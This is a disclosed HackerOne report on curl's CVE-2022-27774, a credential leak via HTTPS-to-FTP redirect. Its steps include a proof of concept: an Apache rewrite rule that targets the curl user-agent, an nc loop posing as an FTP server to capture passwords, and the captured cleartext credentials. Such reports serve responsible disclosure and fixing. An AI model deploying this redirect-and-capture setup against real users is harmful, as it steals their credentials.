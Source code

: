 # CVE-2022-27774: Credential leak on redirect

## Report Details
- **Report ID**: 1543773
- **URL**: https://hackerone.com/reports/1543773
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-18T19:36:47.127Z
- **Disclosed**: 2022-04-27T09:58:04.386Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
Curl can be coaxed to leak user credentials to third-party host by issuing HTTP redirect to ftp:// URL.

## Steps To Reproduce:

  1. Configure for example Apache2 on `firstsite.tld` to perform redirect with mod_rewrite:
     ```
    RewriteCond %{HTTP_USER_AGENT} "^curl/"
    RewriteRule ^/redirectpoc ftp://secondsite.tld:9999 [R=301,L]
     ```
  2. Capture credentials at `secondsite.tld` for example with:
     ```
     while true; do echo -e "220 pocftp\n331 plz\n530 bye" | nc -v -l -p 9999; done
     ```
  3. `curl -L --user foo  https://firstsite.tld/redirectpoc`
  4. The entered password is visible in the fake FTP server:
```
Listening on 0.0.0.0 9999
Connection received on somehost someport
USER foo
PASS secretpassword
```

There are several issues here:
1. The credentials are sent to a completely different host than the original host (`firstsite.tld` vs `secondsite.tld`). This is definitely not what the user could expect, considering the documentation says:
> When authentication is used, curl only sends its credentials to the initial host. If a redirect takes curl to a different host, it will not be able to intercept the user+password. See also --location-trusted on how to change this.
2. The redirect crosses from secure context (HTTPS) to insecure one (FTP). That is the credentials are unexpectedly sent over insecure channels even when the URL specified is using HTTPS.

I believe the credentials should not be sent in this case unless if `--location-trusted` is used.

It might even be sensible to consider making curl stop sending credentials over downgraded security by default even when `--location-trusted` is used. Maybe there could be some option that could be used to enable such downgrade if the user REALLY wants it.

## Impact

Leak of confidential information (user credentials).

## Attachments
No attachments
